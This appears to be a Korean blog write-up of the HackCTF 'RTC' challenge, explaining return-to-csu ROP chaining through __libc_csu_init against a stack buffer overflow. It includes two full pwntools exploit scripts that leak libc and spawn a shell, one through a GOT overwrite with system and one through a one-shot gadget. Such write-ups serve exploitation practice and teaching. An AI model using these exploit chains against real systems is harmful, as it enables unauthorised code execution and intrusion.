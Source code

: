 ```yaml
---
title: "[HackCTF]RTC"
date: 2019-12-22
ctf: HackCTF
layout: post
---
```


Return To Csu에 대해 이론 공부하고 나서 HackCTF RTC를 풀게되었는데 Chaining하는게 좀 재밌었다. 

`__libc_csu_init` 이용해서 Exploit하는건데 이해하는대로 풀었다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-40h]

  setvbuf(stdin, 0LL, 2, 0LL);
  write(1, "Hey, ROP! What's Up?\n", 0x15uLL);
  return read(0, &buf, 512uLL);
}
```

gadget이 부족하기 때문에 일반적인 ROP를 할 수 없어서 RTC를 이용하면 된다.

main 함수에서 buf 크기가 0x40인데 512만큼 받으니까 ret을 `__libc_csu_init ` 주소로 돌려서 Chaining 해주면서 풀면 된다.

![](https://user-images.githubusercontent.com/32904385/71322849-b767ed00-250f-11ea-8c4b-68c2d8da8d67.png)

`0x4006BA` 부터 pop으로 레지스터 세팅해주고  `0x4006A0` 으로 `ret` 을 해줘서 인자 `edi`, `rsi` , `rdx` 를 각각 세팅해주고 함수  `0x4006A9` 에서 호출하기 할 수 있다. 

`0x4006BA` 부터 레지스터에 넣는거 이용해서 `0x4006A9` 에서 `call`하면 된다.

Chaining 계속하려면 `add rbx, 1` , `cmp rbx, rbp` 를 맞춰줘야 하니까 pop 레지스터 세팅해주는 곳에서 rbx를 0으로 맞춰서 `call qword ptr [r12+rbx*]` 에서 r12에 got주소 넣고 rbx에 0을 넣으면 그 함수를 실행할 수 있다.

그러니까 rbx에 0을 넣으니까 rbp는 1로 맞춰줘야 계속 Chaining을 할 수 있다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
p = remote('ctf.j0n9hyun.xyz',3025)
#p = process('./rtc')
e = ELF('./rtc')
libc = ELF('./libc.so.6', checksec=False)
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)

csu_pop = 0x00000000004006BA
csu_call = 0x00000000004006A0

payload = 'A'*72
payload += p64(csu_pop) # set
payload += p64(0) + p64(1) + p64(e.got['write']) + p64(8) + p64(e.got['write']) + p64(1) + p64(csu_call)
# rbx -> 0 
# rbp -> 1
# r12 -> write_got -> call
# r13 -> rdx -> write(?,?,8)
# r14 -> rsi -> write(?,write_got,8)
# r15d -> edi -> write(1,write_got,8)
# ret -> csu_call
payload += p64(csu_pop) # set
payload += p64(0) + p64(1) + p64(e.got['read']) + p64(10) + p64(e.bss()) + p64(0) + p64(csu_call)
# rbx -> 0 
# rbp -> 1
# r12 -> read_got -> call
# r13 -> rdx -> read(?,?,10)
# r14 -> rsi -> write(?,bss,10)
# r15d -> edi -> write(0,bss,10)
# ret -> csu_call
payload += p64(csu_pop) # set
payload += p64(0) + p64(1) + p64(e.got['read']) + p64(8) + p64(e.got['read']) + p64(0) + p64(csu_call)
# rbx -> 0 
# rbp -> 1
# r12 -> read_got -> call
# r13 -> rdx -> read(?,?,8)
# r14 -> rsi -> write(?,read_got,8)
# r15d -> edi -> write(0,read_got,8)
# ret -> csu_call
payload += p64(csu_pop)
payload += p64(0) + p64(1) + p64(e.got['read']) + p64(0) + p64(0) + p64(e.bss()) + p64(csu_call)
# rbx -> 0 
# rbp -> 1
# r12 -> read_got -> call -> system
# r13 -> rdx -> 0
# r14 -> rsi -> 0
# r15d -> edi -> system(bss) -> system("/bin/sh\x00")
# ret -> csu_call
p.sendafter('?\n',payload)

libc_base = u64(p.recvuntil('\x7f').ljust(8,'\x00')) - libc.symbols['write']
log.info('write : ' + hex(libc_base))

p.sendline('/bin/sh\x00')

p.sendline(p64(libc_base + libc.symbols['system']))

p.interactive()
```

다른 방법으론 oneshot gadget 이용해서 풀었다. libc base 구했으니까 main으로 리턴해주고 원샷 날려주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
p = remote('ctf.j0n9hyun.xyz',3025)
# p = process('./rtc')
e = ELF('./rtc')
libc = ELF('./libc.so.6', checksec=False)
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)

csu_pop = 0x00000000004006BA
csu_call = 0x00000000004006A0

payload = 'A'*72
payload += p64(csu_pop) 
payload += p64(0) + p64(1) + p64(e.got['write']) + p64(8) + p64(e.got['write']) + p64(1) + p64(csu_call)
payload += p64(csu_pop)
payload += p64(0) + p64(1) + p64(0) + p64(0) + p64(0) + p64(0) + p64(e.symbols['main'])

p.sendafter('?\n',payload)

libc_base = u64(p.recvuntil('\x7f').ljust(8,'\x00')) - libc.symbols['write']
log.info('libc_base : ' + hex(libc_base))

oneshot = 0x4526a
payload2 = 'A'*72
payload2 += p64(libc_base + oneshot) 

p.sendafter('?\n',payload2)
p.interactive()
```

